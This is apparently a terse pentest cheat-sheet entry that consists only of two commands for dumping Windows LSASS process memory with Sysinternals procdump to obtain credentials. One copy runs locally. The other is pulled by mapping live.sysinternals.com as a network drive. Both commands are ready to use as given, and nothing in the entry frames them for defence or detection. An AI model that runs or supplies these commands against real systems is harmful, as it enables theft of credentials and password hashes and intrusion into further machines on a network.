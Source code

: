 # procdump

% procdump, lsass, credentials

## procdump - dump lsass - local
```
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

## procdump - dump lsass - remote
```
net use Z: https://live.sysinternals.com; Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
